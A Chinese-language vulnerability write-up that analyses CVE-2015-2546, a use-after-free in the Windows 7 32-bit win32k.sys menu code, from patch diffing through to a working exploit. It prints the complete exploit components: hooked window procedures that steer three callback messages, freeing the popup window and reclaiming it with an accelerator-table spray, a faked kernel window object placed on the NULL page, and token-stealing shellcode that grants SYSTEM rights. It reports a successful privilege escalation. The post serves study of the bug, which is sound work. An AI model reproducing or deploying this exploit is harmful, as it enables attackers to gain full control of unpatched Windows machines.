

可见 不发生跳转时edx为0了 然后再去看了下这个edx的值是怎么来的 于是我在HandleMenuMessages中下了断点
title: CVE-2015-2546win32k.sys内核漏洞分析
date: 2020-11-20 22:12:01
tags: 漏洞分析
[TOC]
在上一篇调试了CVE-2014-4113之后 又有一个与之类似的漏洞 也就是今天要将的漏洞CVE-2015-2546 可以在网上找到相关的信息从是从补丁开始分析的 得到的相关信息是xxxMNMouseMove函数开始分析
目标系统：Windows 7 32位
调试器：WinDbg
反汇编器：IDA Pro
当我知道漏洞出现的地方后 我直接去分析程序的补丁 然后对比完补丁发现了这几处的地方的不同
于是我先去看了第一处的不同
详细看了汇编之后 着实是看到了些许变化 第一处那里增加了函数 其实那个函数很熟悉 在上一篇调试了CVE-2014-4113的最后 可以找到对他的解释 IsMFMWFPWindow函数的作用是返回0或者1 用来限制0 /-5 /-1 然后我还是回到IDA中看伪代码（我总是喜欢看伪代码 觉得容易理解 应该是汇编太菜了qaq）
看到的刚才的汇编改变如下：
于是我又去对比了其他几处的改变 然而并没有发现什么诡异的地方 也就只有第一处让我有点怀疑 图就不贴了 因为贴图着实是个麻烦的事情 并且这些图是目前我觉得没有意义的东西 至少目前是 后面分析不下去的也去会有意义
在看到这处的对比之后 代码中并不能看出来什么 于是就到了IDA强大的交叉引用功能的展现了 于是又看到了熟悉的身影xxxHandleMenuMessages
在函数中 定位到伪代码看看
然后再往上寻找一下 就可以找到上一个漏洞的位置了。。。
LABEL_13:
v12 = (_DWORD *)a2;
*(_DWORD *)(a2 + 16) = -1;
*(_DWORD *)(a2 + 8) = (signed __int16)v7;
*(_DWORD *)(a2 + 12) = SHIWORD(v7);
v13 = (_DWORD *)xxxMNFindWindowFromPoint((WCHAR)v3, (int)&UnicodeString, (int)v7);
v48 = IsMFMWFPWindow(v13);
if ( v48 )
{
v42 = *((_DWORD *)gptiCurrent + 45);
*((_DWORD *)gptiCurrent + 45) = &v42;
v43 = v13;
if ( v13 )
++v13[1];
}
if ( v12[1] & 0x400 )
{
v12[9] = v12[2];
v12[10] = v12[3];
v12[12] = UnicodeString;
LockMFMWFPWindow(v12 + 11, v13);
}
if ( v12[1] & 0x500 )
v12[13] = ((v46 & 2) != 0) + 1;
if ( !v13 && !UnicodeString )
goto LABEL_22;
if ( *(_BYTE *)v3 & 2 && v13 == (_DWORD *)-5 )
{
xxxMNSwitchToAlternateMenu(v3);
v13 = (_DWORD *)-1;
}
if ( v13 == (_DWORD *)-1 )
xxxMNButtonDown(v3, v12, UnicodeString, 1);
else
xxxSendMessage(v13, 237, UnicodeString, 0); //cve-2014-4113的位置
if ( !(v12[1] & 0x100) )
xxxMNRemoveMessage(*(_DWORD *)(a1 + 4), 516);
LABEL_129:
if ( !v48 )
return 1;
goto LABEL_144;
}
return 0;
}
LABEL_59:
v24 = *(_DWORD *)(a2 + 4);
if ( v24 & 0x400 )
{
if ( v24 & 8 )
{
if ( !(v24 & 0xC0) )
{
if ( *(_DWORD *)(a2 + 44) )
{
rc.left = *(_DWORD *)(a2 + 36);
rc.top = *(_DWORD *)(a2 + 40);
rc.right = *(_DWORD *)(a2 + 36);
rc.bottom = *(_DWORD *)(a2 + 40);
InflateRect(&rc, *(_DWORD *)(gpsi + 1760), *(_DWORD *)(gpsi + 1764));
v25.y = SHIWORD(v7);
v25.x = (signed __int16)v7;
if ( !PtInRect(&rc, v25) )
{
v26 = GetMenuStateWindow(a2);
if ( v26 )
{
*(_DWORD *)(a2 + 4) |= 0x80u;
_PostMessage(v26, 500, 0, 0);
}
}
}
}
}
}
xxxMNMouseMove((WCHAR)v3, a2, (int)v7); //cve-2015-2546的位置
return 1;
}
goto LABEL_27;
}
if ( v6 == 18 || v6 == 121 )
return 1;
goto LABEL_70;
}当我一步步查看函数调用之后 最终并没有发现什么有用的信息 调用函数a2的值最终回到了一个分配内存的指针 于是去看了下资料emmm 发现补丁的位置确实认知的有问题 回到补丁可以看到再调用完SendMessage函数之后多了一个判断
有了熟悉的SendMessage函数 看汇编代码又看到了熟悉的esi 这个esi的来源在上一篇已经分析过 来自于xxxMNFindWindowFromPoint函数 值为-1或-5 详情可以看这里
确实 又是esi 那么是否可以利用上篇文章的部分思路去写这个的exp呢 现在还无法得知 需要进一步分析
再看看补丁会发现 unpath版本 在调用了Sendmessage用户回调回调返回后 并没有对已经释放的pPopupMenu（atgWND+0xB0处的存放）进行验证 利用点来了~ 而需要注意的是 还有ebx的值 需要控制 因为它是pPopupMenu的地方
好了 我们现在确实是发现了点东西 但并没有什么头绪去利用 所以我需要去理解一下漏洞是如何触发的
小小的整理一下 我们此时得到的东西
esi是一个窗口对象
ebx是可以占位重用的PopupMenu在IDA中使用交叉引用确实是个好办法 但会发现函数的调用不止一个 会有很多函数调用某一个函数 所以还是在WinDbg中动态调试比较方便 下如下个硬件断点 此时下软件断点的话会导致错误的检查 而且我们是无法断下来的 然后鼠标右击
ba e1 win32k!xxxMNMouseMove断下来之后查看程序的执行流 函数是如何调用的~
找到函数的执行流了 如下
xxxTrackPopupMenuEx-->xxxMNLoop-->xxxHandleMenuMessages-->xxxMNMouseMove但我们需要执行到的是SendMessage函数的位置 才可以去执行我们的shellcode 这确实又是一个问题
首先得解决如何到达SendMessage的问题 看看ebx的值是怎么来的 回到xxxMNMoserMove函数发现依然是从esi的值有关

回过头来看看 如何过三次SendMessage到达触发点 不能让v7为/-5 /-1 /0 不然会跳出
我们分别利用三个钩子来分别处理三张消息的调用
第一次处理1EB消息 在FindWindowFromMessage函数中调用中 返回的是窗口B的值 这里会有个问题 就是IsWindowBeingDestroyed函数检测esi指向的pWnd状态 我们hook完之后 不能返回任意值
第二次处理1E5的消息 调用完之后需要和0x10做判断 所以需要返回0x10
push 1E5h ; MbString
push esi ; P
call _xxxSendMessage@16 ; xxxSendMessage(x,x,x,x)
test al, 10h
jz short loc_BF939583
test al, 3
jnz short loc_BF939583第三次在if语句中 处理1F0的消息 需要返回为0来通过判断
push edi ; Src
push edi ; UnicodeString
push 1F0h ; MbString
push esi ; P
call _xxxSendMessage@16 ; xxxSendMessage(x,x,x,x)
test eax, eax
jnz short loc_BF939583
push ebx
call _xxxMNHideNextHierarchy@4 在进入xxxMNHideNextHierarchy后 到达利用点
需要探讨的还有这个a1的值 是由上一层传过来的值 一步步回溯看到
a1-->v9-->v7-->v6-->xxxMNFindWindowFromPoint的返回值
其实在xxxMNMouseMove函数的最开始 我们执行的时候会发现
mov edi, edi //函数开始
push ebp
mov ebp, esp
sub esp, 1Ch
push ebx
mov ebx, dword ptr [ebp+UnicodeString]
cmp ebx, [ebx+20h]
jnz loc_BF939594
mov ecx, [ebp+arg_8]
movsx eax, cx
push edi
mov edi, [ebp+arg_4]
cmp eax, [edi+8]
jnz short loc_BF939424
mov edx, ecx
shr edx, 10h
movsx edx, dx
cmp edx, [edi+0Ch]
jz loc_BF939593 //这里的jz跳转会跳过三次的SendMessage 所以这里也必须更改经过多次下断点调试发现 在创建出窗口后 会跳入三次SendMessage 这里我测试主要在这两条语句下断点 主要是为了判断是否跳转的关键 如下
ba e1 win32k!xxxMNMouseMove+0x2f
ba e1 win32k!xxxMNMouseMove+0x35发生跳转不进入SendMessage时的edx的值
不发生跳转进入SendMessage的时的edx的值
可见 不发生跳转时edx为0了 然后再去看了下这个edx的值是怎么来的 于是我在HandleMenuMessages中下了断点
ba e1 win32k!xxxHandleMenuMessages+0x2e8查看esp的值 edi+0ch我们传入的第四个参数 这也可以从上一篇文章中得到 这里其实自己单纯调这个漏洞的话很难看出来这一点 因为如图 我们可以看到第二个参数和第四个参数的值是一样的 所以无法看出来 所以可以配合cve-2014-4113的来看到这个参数的传递过程 emmmmmm 融会贯通的嘛
还有需要注意的一个点是 我们从HandleMenuMessages函数进入MNMouseMove函数也需要模拟进入 只有我们在创建的窗口上移动鼠标的时候才可以使程序进入MNMouseMove函数 我们需要模拟此过程
看看IDA的伪代码 可以看到就是参数a1了 这个参数是可控的 但无法知道控制为什么 根据伪代码也没有得到什么有用的信息 这里真是头疼
v5 = *(_DWORD *)(a1 + 4);
.
.
.
v20 = v5 - 261;
if ( v20 )
{
v21 = v20 - 1;
if ( v21 )
{
v22 = v21 - 18;
if ( !v22 )
return 1;
v23 = v22 - 232;
if ( v23 )
{
if ( v23 == 1 )
{
进入CVE-2014-4113的流程
.
.
.
}
v24 = *(_DWORD *)(a2 + 4);
.
.
.
xxxMNMouseMove((WCHAR)v3, a2, (int)v7);
return 1;
}
}再回过头来看一下漏洞的流程
xxxHandleMenuMessages-->xxxMNMouseMove-->xxxMNHideNextHierarchy-->xxxSendMessage-->xxxSendMessageTimeout好了 首先去解决从xxxHandleMenuMessages–>xxxMNMouseMove的问题 需要去模拟鼠标移动来进入函数 先看一个概念 也可以在MSDN上找到解释
//WM_SYSCOMMAND处理消息
PostMessage(hwnd,WM_SYSCOMMAND,0,0);//发送WM_SYSCOMMAND
//鼠标事件
PostMessage(hwnd,WM_LBUTTONDOWN,0,0);//鼠标左键按下
PostMessage(hwnd,WM_LBUTTONUP,0,0);//鼠标左键抬起不过我们需要稍微的更改一下
PostMessageA(hWnd, WM_KEYDOWN, 0x28, 0) ;
PostMessageA(hWnd, WM_KEYDOWN, 0x27, 0) ;
PostMessageA(hWnd, 0x200, 0x110011 ,0x110011);那么这部分的代码 这样写
LRESULT CALLBACK MyWndProc(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
if(uMsg == WM_ENTERIDLE) // Message
{
if(gFlag1 != 1)
{
gFlag1=1;
PostMessageA(hWnd, WM_KEYDOWN, 0x28, 0) ;
PostMessageA(hWnd, WM_KEYDOWN, 0x27, 0) ;
PostMessageA(hWnd, 0x200, 0x110011 ,0x110011);
}
else
{
PostMessageA(hWnd,WM_CLOSE,0,0);
}
}
return DefWindowProcA(hWnd, uMsg, wParam, lParam) ;
}而为了过三次的SendMessage 上面也提到过 需要返回不同的值
LRESULT CALLBACK NewWndProc(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)//back default tagWnd will change!!!
{
LPACCEL lpAccel;
if(uMsg == 0x1EB) //第一次消息处理
{
return (LONG)hwnd2;//if success will return 0xfffffffb after xxxFindWindowFromPoint test change to CallWindowProcA(lpPrevWndFunc, hWnd, uMsg, wParam, lParam) ;
}
else if(uMsg == 0x1F0) //第三次消息处理 再if语句中 所以需要特殊处理
{
if(hwnd2 != NULL)
{
DestroyWindow(hwnd2);
//we need set accelerator here
lpAccel = (LPACCEL)LocalAlloc(LPTR, sizeof(ACCEL)*0x5);
for(int i=0;i<50;i++)
{
CreateAcceleratorTable(lpAccel,0x5);
}
}
return 0;
}
else if(uMsg == 0x1E5) //第二次消息处理 需要返回10来通过判断
{
return 0x10;
}
return CallWindowProcA(lpPrevWndFunc,hWnd,uMsg,wParam,lParam);
}创建窗口使用类名为#32768来创建 Windwos默认的包含创建弹出菜单的窗口 使用这个类名调用CreateWindowsExW创建tagWND后 会自动生成tagPopupMenu
hwnd2 = CreateWindowExA(0, "#32768", 0, 0, -1, -1, 0, 0, 0, 0, 0, 0);而shllcode的存放 也如上一篇文章类似 shellcode的话 在HEVD系列已经说过了 可以当成固定内容背诵一般
DWORD InitExploitMem(LPVOID* pAllocAddr)
{
LPVOID pThreadInfo = CallPtiCurrent();
*(DWORD*)pAllocAddr = 1;
ULONG uRegionSize = 0x2000;
LONG iret = fpAllocateVirtualMem(GetCurrentProcess(),
pAllocAddr, 0, &uRegionSize,
MEM_COMMIT | MEM_RESERVE | MEM_TOP_DOWN,
PAGE_EXECUTE_READWRITE);
if (iret)
{
printf("Allocate Mem Failed \n");
ExitProcess(0);
}
// fill fake tagWND struct
*(PVOID*)(0xD) = pThreadInfo; // 7-(0x5) = 8
*(BYTE*)(0x1B) = (BYTE)4; // 0x1B-(0x5) = 0x16, bServerSideWindowProc change!
*(PVOID*)(0x65) = (PVOID)Shellcode; // 0x65-(0x5) = 0x60, lpfnWndProc
return 1;
}提权的shellcode
int __stdcall ShellCode(int parameter1, int parameter2, int parameter3, int parameter4)
{
_asm
{
nop
nop
nop
nop
pushad
mov eax,fs:[124h]
mov eax, [eax + 0x50] // 找到_EPROOCESS
mov ecx, eax
mov edx, 4 // edx = system PID
// 循环是为了获取system的_EPROCESS
find_sys_pid:
mov eax, [eax + 0xb8]
sub eax, 0xb8 // 链表遍历
cmp [eax + 0xb4], edx // 根据PID判断是否为SYSTEM
jnz find_sys_pid
// 替换Token
mov edx, [eax + 0xf8]
mov [ecx + 0xf8], edx
popad
ret
}
}查看后在0x65确实是存在shellcode的地址

可以看到提权成功
这个漏洞呢 看了花了些许时间 主要是要和上一个联系起来 有一些需要注意的点 另外就是上一个漏洞在原理及其过程的时候我可能是比较明了的 但到了利用环节 就是称为“呆瓜”状态了 利用确实是一个比较困难的事情 这次从补丁触发 由于没有poc的触发 需要先去了解漏洞的流程
在对exp的了解过程中 其实有些东西是定性的 就是可以记住他的模式或者说是模板？ 认真对比cve-2014-4113的exp和cve-2015-2546的exp 会发现有很多相同的地方 可能也是因为这两个漏洞原本出现的亦或者说触发地方就比较相似吧 所以 有些东西确实是值得总结的 不过 相对来说 这个漏洞确实比上个漏洞难以理解一些
小刀师傅的文章总是可以获得很多知识的：https://xiaodaozhi.com/exploit/122.html
百度实验室的从补丁到exp：http://xlab.baidu.com/cve-2015-2546%EF%BC%9A%E4%BB%8E%E8%A1%A5%E4%B8%81%E6%AF%94%E5%AF%B9%E5%88%B0exploit/
k0shl师傅的分析：https://www.anquanke.com/post/id/84911
关于模拟鼠标移动的官方定义：https://docs.microsoft.com/en-us/windows/win32/inputdev/wm-mousemove?redirectedfrom=MSDN
https://docs.microsoft.com/en-us/windows/win32/inputdev/wm-keydown
关于用户回调的翻译文章：https://blog.csdn.net/qq_38025365/article/details/106368058